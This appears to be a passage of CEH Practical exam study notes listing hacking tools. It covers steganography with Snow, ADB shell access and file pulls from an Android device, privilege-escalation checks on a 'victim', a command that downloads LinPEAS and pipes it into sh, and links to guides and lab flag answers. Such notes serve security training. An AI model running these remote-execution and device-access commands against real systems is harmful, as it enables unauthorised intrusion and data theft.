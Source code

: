 - **Snow**

  - ./snow -C -p "magic" output.txt  
  - snow -C -m "Secret Text Goes Here!" -p "magic" readme.txt readme2.txt
    • -m → Set your message
    • -p → Set your password

- **Dirb (Web content scanner)**

  - https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86

- **Searchsploit (Exploit-DB)**

  - https://www.hackingarticles.in/comprehensive-guide-on-searchsploit/

- **ADB**
  ```
  adb devices -l

  # Connection Establish Steps
  adb connect 192.168.0.4:5555
  adb devices -l
  adb shell  

  # Download a File from Android using ADB tool
  adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
  adb pull sdcard/log.txt /home/mmurphy/Desktop
  ```

- **Privilege escalation**

    - Always a good idea to execute sudo -l on the victim to check the chances of attack.
    - **LinPEAS/WindPEAS**
      - Linux/Windows local Privilege Escalation Awesome Script (C#.exe and .bat, .sh)
      - https://github.com/carlospolop/PEASS-ng
        - ```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```
        - ```https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat```

## Useful Links

- Guide with commands for multiple tools [GOOD]: https://github.com/DarkLycn1976/CEH-Practical-Notes-and-Tools
  - Wireshark, SQLi, Sqlmap, wpscan, hydra, snow, CrypTool, HashCalc, VeraCrypt, BCTextEncoded, snow, ADB, phonesploit
- Several links [FAIR]: https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master
  - Network scanning, Enumeration, Brute force, wordlists, SQLi, steganography, system hacking, web scanners, sniffers, CEH reviews.
- CEH Practical Preparation [FAIR]: https://chirag-singla.notion.site/chirag-singla/CEH-Practical-Preparation-7f2b77651cd144e8872f2f5a30155052
  - Nmap, Hydra, sqlmap, Nikto, john, wpscan, metasploit, nessus, openstego, quickstego, dirbuster
- CEH notes [FAIR]: https://book.thegurusec.com/certifications/certified-ethical-hacker-practical
  - All phases with tools
- Flag hunting CEH Labs [INTERESTING]: https://blogalpharhob.com/?cat=14
  - Different ways of obtaining the flags for questions
